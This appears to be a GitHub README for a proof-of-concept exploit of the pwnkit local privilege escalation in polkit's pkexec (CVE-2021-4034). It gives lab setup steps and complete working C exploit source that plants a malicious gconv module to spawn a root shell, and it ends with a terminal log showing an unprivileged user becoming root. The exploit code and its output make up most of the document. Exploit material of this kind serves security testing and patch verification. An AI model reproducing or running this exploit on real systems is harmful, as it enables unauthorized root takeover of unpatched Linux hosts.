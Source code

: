 # pwnkit - CVE-2021-4034

The original advisory by the real authors is [here](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)

I used the following vagrant machine

```
config.vm.define "debian9" do |debian9|
  debian9.vm.box = "bento/debian-9"
  debian9.vm.network :private_network, ip: "192.168.56.237"
end
```

Install the vulnerable policykit and gcc package

``` bash
sudo apt update
sudo apt install -y policykit-1=0.105-18+deb9u1 libpolkit-agent-1-0=0.105-18+deb9u1 libpolkit-backend-1-0=0.105-18+deb9u1 libpolkit-gobject-1-0=0.105-18+deb9u1 gcc
```

Copy the C-code to the machine

``` text
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>\n"
	"#include <stdlib.h>\n"
	"#include <unistd.h>\n\n"
	"void gconv() {}\n"
	"void gconv_init() {\n"
	"	setuid(0); setgid(0);\n"
	"	seteuid(0); setegid(0);\n"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
	"	exit(0);\n"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

Compile the pwnkit.c exploit

~~~ bash
vagrant@debian-9:/tmp$ gcc pwnkit.c -o priv-es
vagrant@debian-9:/tmp$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)
vagrant@debian-9:/tmp$ ./priv-es 
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth),1000(vagrant)
~~~

## License and Author

* Author:: Mondoo Inc

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

    http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.

## Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that we (Mondoo Inc) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not Mondoo Inc's responsibility.
